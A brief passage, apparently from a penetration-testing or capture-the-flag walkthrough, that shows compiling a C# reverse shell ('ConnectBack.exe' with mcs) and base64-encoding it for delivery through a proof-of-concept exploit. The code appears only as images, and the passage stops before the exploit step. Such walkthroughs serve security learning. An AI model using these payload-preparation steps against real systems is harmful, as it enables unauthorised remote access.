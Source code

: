 
![image14](../resources/77266785a7504b60bf9110b4089eb286.png)

- Now we need to compile the C# code:
  
```bash
mcs -out:ConnectBack.exe rev_shell.cs

```

![image15](../resources/a6691f18a99e4269a80ea0db346bcf10.png)

- Base64 the .exe and copy the code:

```bash
base64 ConnectBack.exe

```

![image16](../resources/b43b24d1d1b943fdb087e79f55f98df6.png)

- Using the POC code from the website:
